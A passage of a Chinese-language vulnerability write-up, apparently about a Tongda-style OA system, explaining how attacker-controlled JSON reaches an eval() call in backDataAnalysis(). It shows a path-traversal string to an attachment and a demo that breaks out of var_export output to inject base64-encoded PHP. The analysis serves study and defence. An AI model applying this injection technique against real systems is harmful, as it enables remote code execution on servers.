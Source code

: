 ```plain
../../../../../myoa/attach/approve_center/2109/%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E.fb6790f4
```

程序读取完json文件后，执行到AllVariableBusinessProcessing类的backDataAnalysis()

[![](assets/1702520965-dd5ccb37b9d1fe1b70fb0e34efc47c03.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20231213102424-bba8da6a-995e-1.jpg)

[![](assets/1702520965-ba849c96e435bf5009e1929ad1295c93.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20231213102445-c7b15f62-995e-1.jpg)

该方法下存在eval函数可以执行代码，而且$variableData的值是可控的

```plain
$variableData = $BackData["dataAnalysis"];
$variableData = json_decode($variableData, true);
$variableData = eval "return " . iconv("UTF-8", "GBK", var_export($variableData, true) . ";");
```

至于dataAnalysis为什么是这种格式，下面会详细讲到，这里先给出一个demo

```plain
$c = 'ZWNobyAxMjM0Ow==';        //base64解码后为echo 1234;
$d = 'ZWNobyAxMjM7';            //base64解码后为echo 123;

$a = array(
  'a'=>'eval(base64_decode($d))',
);


$b = array(
  'a'=>'b',eval(base64_decode($c)));/*',
);
```
